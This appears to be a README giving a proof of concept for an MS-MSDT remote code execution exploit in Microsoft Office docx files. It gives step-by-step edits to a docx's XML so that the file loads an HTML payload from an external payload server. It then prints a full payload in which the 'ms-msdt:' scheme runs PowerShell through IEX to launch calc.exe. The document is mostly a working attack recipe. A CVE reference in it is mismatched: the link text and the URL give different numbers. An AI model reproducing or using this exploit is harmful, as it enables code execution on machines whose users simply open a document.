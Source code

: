 # MS-MSDT 0-day Office RCE

MS Office docx files may contain external OLE Object references as HTML files. There is an HTML sceme "ms-msdt:" which invokes the msdt diagnostic tool, what is capable of executing arbitrary code (specified in parameters).

The result is a terrifying attack vector for getting RCE through opening malicious docx files (without using macros).

Here are the steps to build a Proof-of-Concept docx:

1. Open Word (used up-to-date 2019 Pro, 16.0.10386.20017), create a dummy document, insert an (OLE) object (as a Bitmap Image), save it in docx.

2. Edit `word/_rels/document.xml.rels` in the docx structure (it is a plain zip). Modify the XML tag "<Relationship>" with attribute

```
Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"
```

and `Target="embeddings/oleObject1.bin"` by changing the `Target` value and adding attribute `TargetMode`:

```
Target = "http://<payload_server>/payload.html!"
TargetMode = "External"
```

Note the Id value (probably it is "rId5").

3. Edit `word/document.xml`. Search for the "<o:OLEObject ..>" tag (with `r:id="rd5"`) and change the attribute from `Type="Embed"` to `Type="Link"` and add the attribute `UpdateMode="OnCall"`.

NOTE: The created malicious docx is almost the same as for [CVE-2021-44444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444).

4. Serve the PoC (calc.exe launcher) html payload with the ms-msdt scheme at `http://<payload_server>/payload.html`:

```
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
```

Note that the comment line with AAA should be repeated >60 times (for filling up enough space to trigger the payload for some reason).


